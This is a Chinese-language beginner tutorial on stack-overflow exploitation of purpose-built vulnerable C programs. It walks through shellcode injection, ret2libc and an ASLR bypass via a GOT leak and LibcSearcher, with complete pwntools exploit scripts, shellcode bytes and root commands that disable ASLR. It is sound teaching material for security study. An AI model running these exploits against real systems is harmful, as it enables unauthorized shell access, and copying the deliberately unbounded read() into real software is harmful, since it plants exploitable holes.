pwn入门（蒸米ROP）
pwn入门（蒸米ROP）
pwn 入门（蒸米 x86）
一、环境：
ubuntu16.04虚拟机 pwntools gdb-peda LibcSearcher pattern.py
二、寄存器相关知识：
EIP：主要用于存放当前代码段即将被执行的下一条指令的偏移，但其本质上并不能直接被指令直接访问。 最典型的栈溢出利用是覆盖程序的返回地址为攻击者所控制的地址，也就是覆盖EIP ESP：栈顶指针，始终指向栈顶 EBP：栈底指针，通常叫栈基址
三、软件保护机制：
CANARY(栈保护)
栈溢出保护是一种缓冲区溢出攻击缓解手段，当启用栈保护后，函数开始执行的时候会先往栈里插入cookie信息，当函数真正返回的时候会验证cookie信息是否合法，如果不合法就停止程序运行。攻击者在覆盖返回地址的时候往往也会将cookie信息给覆盖掉，导致栈保护检查失败而阻止shellcode的执行。在Linux中我们将cookie信息称为canary。
NX（DEP）(数据执行保护 Data Execution Prevention)
NX即No-eXecute（不可执行）的意思，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。
PIE（ASLR）
内存地址随机化机制（address space layout randomization)，有以下三种情况： 0 - 表示关闭进程地址空间随机化 1 - 表示将mmap的基址，stack和vdso页面随机化 2 - 表示在1的基础上增加堆（heap）的随机化
四、简单原理：
当一个我们在输入数据时，如果程序对输入没有限制，会导致输入的超出预定的范围，覆盖掉原来的数据
 左边为正常情况，右边是输入超出限制后
如果我们输入的不是普通的数据，而是构造的数据会怎样？
 构造后栈分布情况
我们完全可以通过更改原来的返回地址来控制程序的走向，上图中就利用返回地址来实现执行 shellcode
入手，什么保护都没的
源码如下：
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void vulnerable_function()
{
char buf[128];
read(STDIN_FILENO, buf, 256);
}
int main(int argc, char** argv)
{
vulnerable_function();
write(STDOUT_FILENO, "Hello, World\n", 13);
}
使用以下命令进行编译： gcc -m32 -fno-stack-protector -z execstack -o level1 level1.c
-m32意思是编译为32位的程序 -fno-stack-protector和-z execstack这两个参数会分别关掉DEP和Stack Protector
在 root 权限下执行（为了方便下面的步骤最好一直在root下）： echo 0 > /proc/sys/kernel/randomize_va_space 这样就关掉了整个系统的ASLR
使用checksec命令来检查一下保护机制： 
使用一个python脚本来产生点数据 python pattern.py create 150

gdb ./level1 -> 调试程序

r -> 运行，输入之前用脚本创造的字符串

回车后发现报错如下：

再使用 python 脚本来计算一下偏移： python pattern.py offset 0x37654136

这里解释一下，在 gdb 里报错的原因是本来的返回地址被我们输入的字符串覆盖掉了，覆盖为了0x37654136，当程序去返回的时候出错了，使用 pattern.py offset计算出来的就是整个栈的大小
也就是说此时的栈情况是如图所示：
 根据之前讲的原理，如果我们能够找到填充的字符串开始的地方，把 0x37654136 改成找到的地址就可以执行我们的语句了
就像这样：  那就可以顺利执行到我们希望能够执行的 shellcode 了
还有个问题： gdb 的调试环境会影响 buf 在内存中的位置，虽然我们关闭了 ASLR，但这只能保证 buf 的地址在 gdb 的调试环境中不变，但当我们直接执行 ./level1 的时候，buf 的位置会固定在别的地址上
这里采用的方法是开启：core dump
ulimit -c unlimited （这里之前是没啥的，但是又一次做的时候只有在root下最后才能成功）
开启之后，当出现内存错误的时候，系统会生成一个 core dump 文件在当前目录下。然后我们再用 gdb 查看这个 core 文件就可以获取到 buf 真正的地址了。
如果没有，尝试执行这个，来改为当前目录下生成转储文件
echo "./core" > /proc/sys/kernel/core_pattern

使用gdb调试转储的 gdb level1 core

使用 x/10s $esp-144 查看shellcode地址

为什么是 esp-144 ？ 因为我们报错的时候其实已经执行的到返回地址了，所以要在 140 的栈空间的基础上加上 4 字节的返回地址空间
用 python 结合 pwntools 写利用脚本
from pwn import *
p = process('./level1')
ret = 0xffffcee0
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"
payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)
p.send(payload)
p.interactive()
利用成功：

进阶，打开栈不可执行
gcc -m32 -fno-stack-protector -o level2 level1.c
这样之前的脚本就没法用了，因为我们的 shellcode 是写在栈上的。
这时候就要用到另一种方法了 -- ret2libc
ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置，一般情况下，我们会选择执行 system("/bin/sh")。
那么我们如何得到 system 函数的地址呢？这里就主要利用了两个知识点
system 函数属于 libc，而 libc.so 动态链接库中的函数之间相对偏移是固定的。 即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，最低的 12 位并不会发生改变。
简单点说就是我们现在没法在栈上执行需要的命令了，但是我们可以去别的地方执行，在 libc.so 中就正好有我们需要找的：system("/bin/sh")。
上题：

前面说到关掉 ASLR 后 system() 函数在内存中的地址是不会变化的，并且 libc.so 中也包含 "/bin/sh" 这个字符串，并且这个字符串的地址也是固定的
我们使用 gdb 来找到这些地址
首先用 gdb ./level2 调试 我们首先在main函数上下一个断点：b main

然后执行程序：r

这样的话程序会加载 libc.so 到内存中 然后我们就可以通过：print system 这个命令来获取 system 函数在内存中的位置

接下来我们可以通过find命令来查找："/bin/sh" 这个字符串

这样就找到了我们需要的数据： system地址：0xf7e41940 /bin/sh地址：0xf7f6002b
写出 exp：
from pwn import *
p = process('./level2')
ret = 0xffd76390
systemaddr=0xf7e41940
binshaddr=0xf7f6002b
payload = 'A'*140 + p32(systemaddr) + p32(ret) + p32(binshaddr)
p.send(payload)
p.interactive()
关于 ret 地址： system() 后面跟的是执行完 system() 后要返回的地址，接下来才是要给 system() 传递的参数："/bin/sh" 字符串的地址。而我们目的是执行 "/bin/sh"，ret 无所谓。
现在栈的分布大致是： 
利用成功： 
再迈一步，打开ASLR
现在我们打开 ASLR，依旧是在root下 echo 2 > /proc/sys/kernel/randomize_va_space
这样因为地址随机化，我们以前的exp已经无效了 我们可以用 ldd level2 命令看一下 libc 的地址，每一次都在变化

那我们该怎么解决呐？ 我们可以先泄漏出 libc.so 某些函数在内存中的地址，然后再利用泄漏出的函数地址根据偏移量计算出 system() 函数和 /bin/sh 字符串在内存中的地址，然后再执行我们的 ret2libc 的 shellcode 就可以了
先把程序用到的libc文件拷贝到当前目录 cp /lib32/libc.so.6 libc.so 这样当前目录下就多了一个libc.so文件
使用：objdump -d -j .plt level2 查看可以利用的函数

使用：objdump -R level2 查看对应 got 表

因为 system() 函数和 write() 在 libc.so 中的 offset (相对地址)是不变的，所以如果我们得到了 write() 的地址并且拥有 libc.so 就可以计算出 system() 在内存中的地址了
from pwn import *
libc = ELF('libc.so')
elf = ELF('level2')
p = process('./level2')
plt_write = elf.symbols['write']
got_write = elf.got['write']
vulfun_addr = 0x08048404
payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)
p.send(payload1)
write_addr = u32(p.recv(4))
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
payload2 = 'a'*140 + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)
p.send(payload2)
p.interactive()
来解析一下 exp： payload1的意思是：填充 140 个 A 后返回地址覆盖为 write 函数，通过 got_write 将 write 函数的真实地址泄露出来，执行完成 write 函数之后，返回地址为 vul 函数，再次利用 vul 函数的溢出漏洞，完成漏洞利用工作 next()是用来查找字符串的，比如next(libc.search('/bin/sh'))用来查找包含/bin/sh（字符串、某个函数或数值）的地址
利用成功： 
如果没有libc.so呐
实际上，在做题的时候没法查看 libc 的版本之类的，更没法拷贝到程序所在目录，连上服务器后就是程序运行起来的情况，那这时候就需要新的知识来解决了
LibcSearcher，可以通过它来找出偏移
我们先用 LibcSearcher 做一下之前开启 ALSR 保护的，然后再进行实战练习
可以看到 ASLR 是打开的

我们对比一下使用 LibcSearcher 和不使用的脚本的区别

可以看到主要区别就在这四行里面，下面讲解一下： libc=LibcSearcher('write',write_addr) 通过之前的 payload1 我们已经泄露出了 write 函数的地址了，我们直接使用 LibcSearcher('write',write_addr) 就可以找出 libc 的版本了
libcbase=write_addr-libc.dump("write") 使用 libc.dump("write") 可以计算出 write 的偏移地址，再用 write_addr 减去偏移地址就得到了 libc 的基址
system_addr=libcbase+libc.dump("system") 使用基址加上 system 的偏移，得到 system 的实际地址
binsh_addr=libcbase+libc.dump("str_bin_sh") 使用基址加上 /bin/sh 字符串的偏移，得到 /bin/sh 的实际地址
使用 LibcSearcher 的脚本
from pwn import *
from LibcSearcher import *
elf=ELF('level2')
p=process('./level2')
write_plt=elf.plt['write']
write_got=elf.got['write']
vulfun_addr = 0x08048404
gdb.attach(p)
payload1='A'*140+p32(write_plt)+p32(vulfun_addr)+p32(1)+p32(write_got)+p32(4)
p.sendline(payload1)
write_addr=u32(p.recv(4))
libc=LibcSearcher('write',write_addr)
libcbase=write_addr-libc.dump("write")
#print(libcbase)
system_addr=libcbase+libc.dump("system")
binsh_addr=libcbase+libc.dump("str_bin_sh")
payload2='A'*140+p32(system_addr)+p32(1234)+p32(binsh_addr)
p.sendline(payload2)
p.interactive()
pwn 入门（蒸米 x64）
x86 与 x64 的区别：
x86 都是保存在栈上面的， 而 x64 中的前六个参数依次保存在 RDI, RSI, RDX, RCX, R8 和 R9 中，如果还有更多的参数的话才会保存在栈上
使用如下源码 level3.c：
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void callsystem()
{
system("/bin/sh");
}
void vulnerable_function() {
char buf[128];
read(STDIN_FILENO, buf, 512);
}
int main(int argc, char** argv) {
write(STDOUT_FILENO, "Hello, World\n", 13);
vulnerable_function();
}
编译：
gcc -fno-stack-protector level3.c -o level3
之后通过python pattern.py create 150创造150个字符，找溢出点，输入后程序并没有停在类似 0x41414141那样的地方，而是停在了函数中

这是因为程序使用的内存地址不能大于 0x00007fffffffffff 否则会抛出异常，但是我们依然可以通过x/x $rsp 来查看即将返回的地址，如上图：0x6261616b... 通过计算，偏移是 136，如果构造一个小一点的返回地址他就可以正常显示出来比如：'a'*136+"ABCDEF/x00/x00"（注意是小端序）
这样就可以成功看到返回地址被覆盖成功了
